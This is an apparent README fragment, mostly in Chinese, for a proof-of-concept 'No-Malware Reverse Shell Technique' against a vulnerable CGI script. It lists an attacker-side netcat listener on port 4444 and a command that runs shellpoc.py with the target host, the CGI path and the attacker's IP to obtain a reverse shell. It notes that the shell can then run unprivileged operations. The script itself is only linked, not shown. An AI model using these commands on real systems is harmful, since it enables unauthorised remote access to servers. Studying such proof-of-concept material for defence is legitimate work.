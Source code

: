 ![](image/7.png)
- The No-Malware Reverse Shell Technique

1.攻击者监听自己机器的端口

```
nc -l -p 4444
```

2.运行python脚本


```
python shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
```

[Code :reverse shell](Code/shellpoc.py)

能够执行不需要权限的操作：

![](image/5.png)
